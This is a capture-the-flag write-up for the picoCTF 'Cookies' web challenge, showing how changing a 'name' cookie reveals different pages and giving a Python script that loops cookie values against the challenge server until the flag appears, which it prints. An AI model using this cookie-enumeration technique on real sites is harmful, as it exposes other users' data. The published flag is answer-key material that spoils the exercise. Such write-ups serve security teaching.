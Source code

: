 # Cookies

## Web

### Who doesn't love cookies? Try to figure out the best one.

The site takes you to this page:

![landing](./landing.png)

When you look at the cookies, you see there is a 'name' value set to 1

![inspect1](./inspect1.png)

If you change that value and reload the page, you can see there's a different cookie listed.

![inspect2](./inspect2.png)

Changing it again changes the cookie type again.  I suspect that when you enter the correct value, you'll receive the flag.
This is a type of Insecure Direct Object Reference (IDOR) vulnerability.  I could try different values manually, but I don't know what the upper bound is, and figuring it out could take as much time as writing a script to iterate through the cookie values.

For this Python script, I'll use the `requests` library to interact with the web portion and the `re` library to do a regex search.
Because the attempts so far have all had "Not very special" in them, I'll print on a failed match.

```python3
#!/usr/bin/env python3

import requests
import re

site = "http://mercury.picoctf.net:21485/check"
loops = 30
pattern = r"Not very special"

for i in range(loops):
    cookies = {'name': str(i)}
    r = requests.get(site, cookies=cookies)
    match = re.search(pattern, r.text)
    if not match:
        print(r.text)
        break

```

Running the script we get an output (most redacted for brevity):

```html

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
        </div>

```

**picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}**
